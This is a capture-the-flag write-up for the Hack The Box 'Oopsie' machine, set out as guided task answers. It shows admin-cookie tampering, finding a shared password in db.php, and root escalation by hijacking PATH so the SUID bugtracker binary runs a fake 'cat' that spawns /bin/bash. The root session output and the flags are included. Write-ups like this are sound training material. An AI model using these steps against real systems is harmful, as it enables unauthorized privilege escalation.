

# Write Up for Hack The Box box - [Oopsie](https://app.hackthebox.com/starting-point?tier=2)

Part of Starting Point Path. Guided Box

> Pratyush Prakhar (5#1NC#4N) - 02/01/2024


### TASKS

1. With what kind of tool can intercept web traffic? - **proxy**
\


2. What is the path to the directory on the webserver that returns a login page? - **/cdn-cgi/login**
\


3. What can be modified in Firefox to get access to the upload page? - **cookie** - [cookie file](web/adm/cookie.txt), [pins](web/adm/pins.txt)

4. What is the access ID of the admin user? - **34322** --> [cookie FUZZ file](web/adm/admin_cookie.json)

5. On uploading a file, what directory does that file appear in on the server? - **/uploads**
\


6. What is the file that contains the password that is shared with the robert user?- **db.php** --> [CGI dir](web/cgi)

7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group? - **find** 

8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run? - **root**

9. What SUID stands for? - **Set owner User ID** --> [scan file](ssh/linpeas.out)

```bash
root@oopsie:/root# find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
root@oopsie:/root# ls -la /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

10. What is the name of the executable being called in an insecure manner?

```bash
root@oopsie:/root# /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 4
---------------

cat: /root/reports/4: No such file or directory

robert@oopsie:/tmp$ echo '/bin/bash' > /tmp/cat 
robert@oopsie:/tmp$ chmod +x /tmp/cat 
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ /usr/bin/bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 5
---------------

root@oopsie:/tmp# id
uid=0(root) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

11. Submit user flag - **f2c74ee8db7983851ab2a96a44eb7981**

```bash
root@oopsie:~# cat user.txt 
f2c74ee8db7983851ab2a96a44eb7981
```

12. Submit root flag - **af13b0bee69f8a877c3faf667f7beacf** 

```bash
root@oopsie:~# cd /root/
root@oopsie:/root# cat root.txt 
af13b0bee69f8a877c3faf667f7beacf
```